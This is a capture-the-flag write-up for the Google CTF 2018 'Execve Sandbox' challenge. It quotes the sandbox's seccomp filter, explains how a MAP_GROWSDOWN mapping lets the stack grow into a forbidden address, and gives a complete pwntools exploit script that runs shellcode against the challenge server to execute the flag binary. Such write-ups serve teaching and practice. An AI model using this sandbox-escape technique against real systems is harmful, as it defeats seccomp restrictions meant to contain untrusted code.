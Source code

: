 ```yaml
---
title: Execve Sandbox - Google CTF 2018
layout: post
date: '2018-06-26 19:32:23'
---
```


> What a kewl sandbox! Seccomp makes it impossible to execute ./flag
> 
> nc execve-sandbox.ctfcompetition.com 1337
> 
> [Attachment](/assets/google18/execve-sandbox.c)


*283 points, 23 Solves, pwn*


We are given the source to a sandbox that reads a Elf64 binary, initializes the sandbox, then runs the sandboxed program. It does this by first checking that none of the Elf sections are within the range `0x10000-0x11000`, then uses `seccomp` to only allow a few safe syscalls.

```c
static int install_syscall_filter(unsigned long mmap_min_addr)
{
  int allowed_syscall[] = {
    SCMP_SYS(rt_sigreturn), SCMP_SYS(rt_sigaction), SCMP_SYS(rt_sigprocmask), SCMP_SYS(sigreturn), 
    SCMP_SYS(exit_group), SCMP_SYS(exit), SCMP_SYS(brk), SCMP_SYS(access), SCMP_SYS(fstat), SCMP_SYS(write),
    SCMP_SYS(close), SCMP_SYS(mprotect), SCMP_SYS(arch_prctl), SCMP_SYS(munmap), SCMP_SYS(fstat),
    SCMP_SYS(readlink), SCMP_SYS(uname),
  };
  
  scmp_filter_ctx ctx;
  unsigned int i;
  int ret;

  ctx = seccomp_init(SCMP_ACT_KILL);
  if (ctx == NULL) {
    warn("seccomp_init");
    return -1;
  }

  for (i = 0; i < sizeof(allowed_syscall) / sizeof(int); i++) {
    if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, allowed_syscall[i], 0) != 0) {
      warn("seccomp_rule_add");
      ret = -1;
      goto out;
    }
  }

  /* prevent mmap to map mmap_min_addr */
  if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mmap), 1,
                       SCMP_A0(SCMP_CMP_GE, mmap_min_addr + PAGE_SIZE)) != 0) {
    warn("seccomp_rule_add");
    ret = -1;
    goto out;
  }

  /* first execve argument (filename) must be mapped at mmap_min_addr */
  if (seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 1,
                       SCMP_A0(SCMP_CMP_EQ, mmap_min_addr)) != 0) {
    warn("seccomp_rule_add");
    ret = -1;
    goto out;
  }

  puts("[*] seccomp-bpf filters installed");

  ret = seccomp_load(ctx);
  if (ret != 0)
    warn("seccomp_load");

out:
  seccomp_release(ctx);
  return ret;
}
```
It also allows execve but only if the first argument is `0x10000` and allows `mmap` but only if the address is greater than or equal to `0x11000`.

The end goal is to run the `flag` program in the current directory, but as `0x10000` isn't mapped and `seccomp` wont allow us to mmap it, it seems impossible.

After a bit of reading I came across `MAP_GROWSDOWN` which I'd only used for creating fake stacks before, but I realised that it could be used to defeat the sandbox! 

From the [mmap man page](http://man7.org/linux/man-pages/man2/mmap.2.html):
> MAP_GROWSDOWN
> 
> This flag is used for stacks.  It indicates to the kernel
> virtual memory system that the mapping should extend downward
> in memory.  The return address is one page lower than the
> memory area that is actually created in the process's virtual
> address space.  Touching an address in the "guard" page below
> the mapping will cause the mapping to grow by a page.  This
> growth can be repeated until the mapping grows to within a
> page of the high end of the next lower mapping, at which point
> touching the "guard" page will result in a SIGSEGV signal.

I was interested in how this was actually handled by the kernel, and tracing through `__do_page_fault` in *arch/x86/mm/fault.c* we come to:
```c
if (!(vma->vm_flags & VM_GROWSDOWN)) {
    bad_area(regs, error_code, address);
    return;
  }
  if (error_code & PF_USER) {
    if (address + 65536 + 32 * sizeof(unsigned long) < regs->sp) {
      bad_area(regs, error_code, address);
      return;
    }
  }
  if (expand_stack(vma, address)) {
    bad_area(regs, error_code, address);
    return;
  }
```

So as long as `MAP_GROWSDOWN` has been set and the current stack pointer is less than the page fault address + 0x10100, `expand_stack` will be called which calls `expand_downwards` to map a new page.

We just map a page at `0x11000` with the `MAP_GROWSDOWN` flag set, then set the stack to 0x11000 and push something. This will cause the kernel to automatically map another page so the stack page is now `0x10000-0x12000`. We can now write `./flag` to 0x10000 and run execve.

Using all the amazing helper functions of [pwntools](https://github.com/Gallopsled/pwntools) this turn out to be pretty simple:

```python
#!/usr/bin/env python2
from pwn import *

def exploit():
  code = ""
  code += shellcraft.syscall('SYS_mmap', 0x11000, 0x1000, 
    constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC,
    constants.MAP_GROWSDOWN | constants.MAP_ANONYMOUS | constants.MAP_PRIVATE,
     0, 0
  )
  code += "mov rsp, 0x11000\n"
  code += shellcraft.pushstr("./flag")
  code += shellcraft.memcpy(0x10000, 'rsp', 6)
  code += shellcraft.syscall('SYS_execve', 0x10000, 0, 0)
  code += shellcraft.exit(0)

  elf = make_elf(asm(code), extract=True, strip=True )

  payload = elf.ljust(0x1000, "\x00")
  p.sendafter("binary...", payload)

  print p.recvall()

if __name__ == "__main__":
  name = "./execve-sandbox"
  binary = ELF(name)

  context.terminal=["tmux", "sp", "-h"]
  context.arch = "amd64"
  context.os = "linux"

  if len(sys.argv) > 1:
    p = remote("execve-sandbox.ctfcompetition.com", 1337)
  else:
    p = process(name, cwd="./sandbox", env={})

    gdb.attach(p, """
      set follow-fork-mode child
    c
    """)

  exploit()
```

Which prints out the flag `CTF{Time_to_read_that_underrated_Large_Memory_Management_Vulnerabilities_paper}`
